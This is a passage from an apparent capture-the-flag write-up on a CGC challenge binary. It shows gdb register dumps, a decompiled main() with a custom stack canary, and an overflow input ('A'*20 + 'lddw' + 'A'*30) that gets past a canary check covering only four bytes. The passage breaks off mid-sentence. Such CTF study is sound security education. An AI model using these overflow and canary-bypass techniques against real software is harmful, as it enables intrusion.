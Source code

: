 If we send exactly 20 bytes, we see it compares ECX = ‘l’ and EAX = 0x00 because we have the null at the end of our 20 bytes of ‘A’s in the first byte of the canary:

```

[----------------------------------registers-----------------------------------]
EAX: 0x0 
ECX: 0x6c ('l')
[-------------------------------------code-------------------------------------]
=> 0x804832b:  cmp    eax,ecx
[------------------------------------------------------------------------------]
0x0804832b in ?? ()
gdb-peda$ 
```

You can use cgc2elf to convert CGC binary format files to ELF format and IDA Pro will load them up nicely. Here’s the function we exploit. You can see it matches exactly our expectations, including the check_canary() call seems to have an argument of “4”. Probably canary length.

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [sp+2Fh] [bp-29h]@1
  char canary; // [sp+43h] [bp-15h]@1
  set_canary(&canary, "lddwDrwhkTEBSya_", 17);
  read_input(&buf);
  if ( !check_canary(&canary, "lddwDrwhkTEBSya_", 4) )
  {
    printmsg("hacking detected, see ya");
    terminate(-1);
  }
  return printmsg("canary ok");
}
```

So if we use an input string of ‘A’ * 20 + ‘lddw’ + ‘A’ * 30 we see we successfully pass the canary validation because it only checks 32 bits and ‘lddw’ is in our canary location. Cool!

```
gdb-peda$ r
Starting program: /vagrant/easy-prasky-with-buffalo-on-bing 
AAAAAAAAAAAAAAAAAAAAlddw
[----------------------------------registers-----------------------------------]
EAX: 0x6c ('l')
ECX: 0x6c ('l')
EIP: 0x804832b (cmp    eax,ecx)
[-------------------------------------code-------------------------------------]
=> 0x804832b:  cmp    eax,ecx
[------------------------------------------------------------------------------]
0x0804832b in ?? ()
gdb-peda$ 
```

So to summarize, a naive but successful approach can have these properties:
